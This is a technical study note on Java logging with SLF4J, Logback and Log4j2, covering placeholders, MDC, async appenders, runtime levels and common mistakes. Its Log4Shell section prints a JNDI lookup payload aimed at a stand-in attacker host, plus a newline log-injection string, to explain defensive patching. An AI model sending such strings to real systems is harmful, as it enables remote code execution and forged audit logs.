

# SLF4J, Logback and Log4j2

## 1. One-line summary

**SLF4J** is the logging **API** (a facade: interfaces your code calls, `log.info("...")`), while **Logback** and **Log4j2** are **implementations** that decide where log lines go, in what format and how fast; you code against SLF4J and pick the implementation with a jar and a config file, the same way you code against JDBC and pick a database driver.

💡 A **facade** is a thin interface in front of something that can be swapped. **Appender** = the component that writes log events somewhere (console, file, socket). **Logger** = the named object you call (`com.example.orders.OrderService`).

---

## 2. The problem it solves

**The pain:** your service pulls in 40 libraries. One logs with `java.util.logging`, one with old Log4j 1, one with Apache Commons Logging, one with `System.out`. Each has its own config file, format and level settings. You can't turn on DEBUG for one package, can't get JSON output everywhere, and half the lines go nowhere.

**The fix:** libraries log against **one API** (SLF4J), the application picks **one implementation** (usually Logback, or Log4j2), and **bridge jars** reroute the old APIs into SLF4J. One config, one format, one place to change levels.

> Infra analogy: it's the OpenTelemetry Collector pattern. Every app emits to one standard interface; which backend (Loki, Elasticsearch, Datadog) receives it is a deployment decision, not a code change.

---

## 3. How it works

### 3.1 Facade, provider, appenders



SLF4J 2.x finds its implementation (a **provider**) with Java's `ServiceLoader` at startup (1.x used a "static binder" class instead). Logback was written by Ceki Gülcü, who also wrote SLF4J and the original Log4j, so it implements SLF4J natively. Log4j2 is a separate Apache project (a rewrite, not Log4j 1 updated) with its own API, usable behind SLF4J through an adapter jar.

**Levels** from least to most severe: `TRACE < DEBUG < INFO < WARN < ERROR`. Loggers are named by class and form a **hierarchy** by dots: setting `com.example.payments` to DEBUG affects every logger below it, and anything unset inherits from the root.

### 3.2 Parameterized logging, MDC and exceptions

A runnable example (needs `slf4j-api`, `logback-classic` and `logback-core` jars on the classpath; tested with SLF4J 2.0.13 and Logback 1.5.6, Java 21):

```java
package com.example.orders;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.slf4j.MDC;

public class OrderService {
    private static final Logger log = LoggerFactory.getLogger(OrderService.class);

    public void place(String orderId, int items) {
        log.debug("Validating order {} with {} items", orderId, items);   // DEBUG is off for this logger
        log.info("Placed order {} with {} items", orderId, items);
        try {
            throw new IllegalStateException("inventory service timed out");
        } catch (IllegalStateException e) {
            log.warn("Order {} will be retried", orderId, e);   // last arg Throwable: stack trace printed
        }
    }

    public static void main(String[] args) {
        MDC.put("requestId", "req-42");          // goes into every log line on this thread (%X{requestId})
        try {
            new OrderService().place("o-1001", 3);
        } finally {
            MDC.clear();                         // pooled threads: always clean up
        }
    }
}
```

With the `logback.xml` from 3.3, output:

```
12:29:41.990 INFO  [main] c.e.o.OrderService req=req-42 - Placed order o-1001 with 3 items
12:29:41.993 WARN  [main] c.e.o.OrderService req=req-42 - Order o-1001 will be retried
java.lang.IllegalStateException: inventory service timed out
	at com.example.orders.OrderService.place(OrderService.java:14)
	at com.example.orders.OrderService.main(OrderService.java:23)
```

What to notice:

- **`{}` placeholders** are filled in **only if the level is enabled**. With `"Validating order " + orderId + " with " + items + " items"` the string is built on every call, even when DEBUG is off. On a hot path at 50,000 calls/s, that's 50,000 throwaway strings per second of garbage for nothing.
- **Placeholders don't help when computing the argument is expensive**: `log.debug("Cart: {}", cart.dumpAsJson())` still runs `dumpAsJson()`. Guard it with `if (log.isDebugEnabled())`, or pass a lambda through the SLF4J 2 fluent API: `log.atDebug().setMessage("Cart: {}").addArgument(() -> cart.dumpAsJson()).log();` (Log4j2's own API accepts lambdas directly).
- **Exception as the last argument**, with no `{}` for it, prints the full stack trace. Writing `"failed: " + e` prints only `e.toString()` and loses the trace.
- **MDC** (Mapped Diagnostic Context) is a per-thread map printed with `%X{key}`. It's a `ThreadLocal`, with all its pitfalls on thread pools ([ThreadLocal and context propagation](../../concepts/thread-local-and-context-propagation.md)).
- **Structured key-values** (SLF4J 2): `log.atInfo().setMessage("Order placed").addKeyValue("orderId", "o-1001").log();`, printed by Logback's `%kvp` as `orderId="o-1001"`. JSON encoders turn these into real JSON fields that log search can filter on.

### 3.3 Configuration and the async appender

`logback.xml` (on the classpath, e.g. `src/main/resources`):

```xml
<configuration>
  <shutdownHook/>   <!-- flush the async queue when the JVM exits (see below) -->
  <appender name="CONSOLE" class="ch.qos.logback.core.ConsoleAppender">
    <encoder>
      <pattern>%d{HH:mm:ss.SSS} %-5level [%thread] %logger{20} req=%X{requestId} - %msg%n</pattern>
    </encoder>
  </appender>
  <appender name="ASYNC" class="ch.qos.logback.classic.AsyncAppender">
    <queueSize>1024</queueSize>
    <discardingThreshold>0</discardingThreshold> <!-- 0 = never drop INFO and below -->
    <neverBlock>false</neverBlock>               <!-- false = block the caller when full -->
    <appender-ref ref="CONSOLE"/>
  </appender>
  <logger name="com.example.payments" level="DEBUG"/>
  <root level="INFO">
    <appender-ref ref="ASYNC"/>
  </root>
</configuration>
```

**`AsyncAppender`** moves the slow part (formatting and I/O) off the request thread: the caller puts the event in a bounded `ArrayBlockingQueue` and one worker thread drains it into the wrapped appender. Its defaults are a [back-pressure](../../concepts/back-pressure.md) policy most people don't know they have: `queueSize` **256**; once the queue is **80% full** (`discardingThreshold` defaults to queueSize / 5 free slots) it **drops TRACE, DEBUG and INFO** events; once it's completely full it **blocks** the caller unless `neverBlock` is `true`.

**A trap we hit while testing this file:** without `<shutdownHook/>`, running the program above printed **nothing at all**, three runs out of three. `main` returned, the JVM exited, and the events still in the queue died with it. The hook stops the logging context on exit, which drains the queue (up to `maxFlushTime`, default 1 s). The lines you lose this way are the ones right before a crash or shutdown, i.e. the ones you need.

**Log4j2 async loggers** take a different route: instead of an `ArrayBlockingQueue`, they use the **LMAX Disruptor**, a pre-allocated **ring buffer** (a fixed array reused in a circle, so no allocation per event) that producer and consumer threads coordinate on with sequence counters instead of locks. Default size is 256 × 1024 = 262,144 slots. When it's full, the default policy makes the caller **wait**; setting `log4j2.AsyncQueueFullPolicy=Discard` drops events at INFO and below (`log4j2.DiscardThreshold`). Log4j2's docs report much higher throughput than queue-based async appenders under multi-threaded load; the honest summary is "both are fine for most services; Log4j2 async loggers win at very high log rates".

| | **Logback `AsyncAppender`** | **Log4j2 async loggers** |
|---|---|---|
| Hand-off structure | `ArrayBlockingQueue` (lock-based) | LMAX Disruptor ring buffer (lock-free) |
| Default capacity | 256 | 262,144 |
| When full (default) | drop ≤ INFO at 80%, then block | block (wait) |
| Enable | wrap appenders in config | `Async*` loggers in config, or a system property to make all loggers async; needs the `disruptor` jar |

### 3.4 Changing levels at runtime

During an incident you want DEBUG for one package **now**, without a redeploy:

- **Logback**: `<configuration scan="true" scanPeriod="30 seconds">` re-reads the file when it changes (works with a k8s ConfigMap mounted as a file). Log4j2 has `monitorInterval`.
- **Spring Boot Actuator**: `POST /actuator/loggers/com.example.payments` with body `{"configuredLevel": "DEBUG"}` changes it live; `GET /actuator/loggers` lists levels. Lock the endpoint down: it's an admin API.
- Remember to turn it back off: DEBUG on a hot path can multiply log volume (and cost) by 10×.

### 3.5 Log4Shell: never interpret log content

**CVE-2021-44228**, disclosed in **December 2021** and rated CVSS 10.0 (the maximum), hit Log4j2 versions 2.0-beta9 through 2.14.1. Log4j2 supported **lookups**: `${...}` expressions expanded while formatting a message, including `${jndi:ldap://host/x}`, which makes the JVM fetch an object from a remote server via JNDI (Java Naming and Directory Interface, a lookup API that can load remote Java objects). Lookups were applied to the **logged message itself**, so an attacker only had to get a string logged:

```
User-Agent: ${jndi:ldap://attacker.example/a}
→ log.info("Request from agent {}", userAgent)
→ Log4j2 resolves the lookup, connects to attacker.example, loads and runs their code
```

Fixes came in steps: **2.15.0** turned message lookups off by default and restricted JNDI, which proved bypassable in some configurations (CVE-2021-45046); **2.16.0** disabled JNDI by default and removed lookups in messages entirely; **2.17.0** fixed a recursive-lookup denial of service (CVE-2021-45105), and 2.17.1 one more JNDI issue in configuration (CVE-2021-44832). Logback was not affected by this bug (it had a much narrower JNDI issue, CVE-2021-42550, exploitable only by someone who can already edit its config file).

The lesson for any logging design: **log data is untrusted input; a logger must never interpret it**. Placeholders substitute values, they never evaluate them. The same thinking covers **log injection**: a user sending `abc\nINFO admin logged in` forges a fake log line unless newlines are escaped (or you log JSON).

### 3.6 The JDK's own: `java.util.logging` and `System.Logger`

- **`java.util.logging` (JUL)**, in the JDK since 1.4: no dependency, but clunky configuration and `{0}`-style placeholders. Often bridged into SLF4J with `jul-to-slf4j`.
- **`System.Logger`** (Java 9, JEP 264): a tiny facade *inside* the JDK, mainly so JDK code and small libraries can log without choosing a framework. It routes to JUL by default, or to any implementation that provides a `System.LoggerFinder`.

```java
public class SysLoggerDemo {
    private static final System.Logger log = System.getLogger(SysLoggerDemo.class.getName());

    public static void main(String[] args) {
        log.log(System.Logger.Level.INFO, "Placed order {0} with {1} items", "o-1001", 3);  // {0}-style, not {}
        log.log(System.Logger.Level.DEBUG, "not shown: java.util.logging defaults to INFO");
    }
}
```

```
Oct 08, 2026 12:29:51 PM SysLoggerDemo main
INFO: Placed order o-1001 with 3 items
```

---

## 4. When to use it

- **Any Java service or library**: code against SLF4J. Libraries should depend on `slf4j-api` only and never ship an implementation.
- **Logback** as the default implementation (it's Spring Boot's default).
- **Log4j2** when you need the highest async throughput, its garbage-free mode, or you're already standardised on it (keep it patched).
- **Async appenders/loggers** when logging I/O shows up in request latency, with a deliberate full-queue policy.

## 5. When NOT to use it (and why it's a mistake)

| Situation | Why |
|---|---|
| A library bundling `logback-classic` | Forces an implementation on every user and causes multiple-provider conflicts. Depend on `slf4j-api` only. |
| Async logging for **audit** events with `neverBlock=true` | Silent drops of events that must not be lost. Use blocking, or a separate durable path. |
| `System.out.println` in a server | No levels, no format, no MDC, synchronized on one stream. |
| Logging as your metrics system | Counting log lines to get request rates is slow and expensive; use metrics ([observability](../../../HLD/concepts/observability.md)). |

---

## 6. Commonly confused with

| | **SLF4J** | **Logback** | **Log4j2** | **Log4j 1.x** | **JUL / System.Logger** |
|---|---|---|---|---|---|
| What | API (facade) | implementation | implementation + its own API | old implementation | JDK built-in API (+ JUL implementation) |
| Placeholders | `{}` | via SLF4J | `{}` and lambdas | none (concatenate) | `{0}` |
| Async | n/a | `AsyncAppender` | async loggers (Disruptor) | `AsyncAppender` | no |
| Status | active (2.x) | active | active, patch for Log4Shell | **end of life since 2015** | in the JDK |

---

## 7. Common mistakes / misuse

1. **String concatenation** in log calls (`"id=" + id`): the string is built even when the level is off. Use `{}`.
2. **Log and rethrow**: `catch (e) { log.error("failed", e); throw e; }` at every layer prints the same stack trace five times. Log once, where you handle it; otherwise wrap and rethrow.
3. **Logging PII and secrets** (emails, card numbers, tokens, full request bodies): logs are copied widely and kept for months. Mask at the source; GDPR-style deletion requests can't reach every log archive.
4. **Multiple providers on the classpath**: SLF4J 2.0.13 then prints
   ```
   SLF4J(W): Class path contains multiple SLF4J providers.
   SLF4J(W): Found provider [ch.qos.logback.classic.spi.LogbackServiceProvider@378bf509]
   SLF4J(W): Found provider [org.slf4j.simple.SimpleServiceProvider@5fd0d5ae]
   ```
   and picks one; your config may silently apply to the other. **No provider** at all gives `SLF4J(W): No SLF4J providers were found.` and `Defaulting to no-operation (NOP) logger implementation`: every log line vanishes. Exclude the extras in Maven/Gradle (`mvn dependency:tree` finds them).
5. **Forgetting `MDC.clear()`** on pooled threads, so the next request logs the previous request's ID.
6. **Async appender without a shutdown hook**: the last events before exit are lost (3.3).
7. **Not upgrading Log4j2**: anything older than 2.17.1 should be treated as an incident.

---

## 8. Interview cheat-sheet

> "I code against SLF4J, the facade, and use Logback or Log4j2 as the implementation, with bridges so legacy APIs land in the same place. I always use {} placeholders so messages are only built when the level is on, and isDebugEnabled or a lambda when the argument itself is expensive; the exception goes last so the stack trace prints. Request IDs go in the MDC, set and cleared in a filter. For throughput I'd wrap the file appender in an AsyncAppender, knowing its defaults: a 256-slot queue that drops INFO and below at 80% full and blocks when full, and I'd add a shutdown hook so the queue drains on exit; Log4j2's async loggers use the LMAX Disruptor ring buffer instead. Levels can be changed live through Spring Boot Actuator. And Log4Shell is the reminder that a logger must never interpret what it logs."

---

## 9. Used in

- [LLD: Logging Framework](../../interviews/logging-framework/README.md): the real-world libraries the interview's design mirrors (facade vs implementation, logger hierarchy and levels, appenders, async appender with a bounded queue, MDC), and how the hand-written solution compares to them.
- Related: [back-pressure](../../concepts/back-pressure.md), [ThreadLocal and context propagation](../../concepts/thread-local-and-context-propagation.md), [blocking queues and producer-consumer](blocking-queues-and-producer-consumer.md), [file I/O and fsync](file-io-and-fsync.md), [logging in Node](../js/logging-in-node.md).
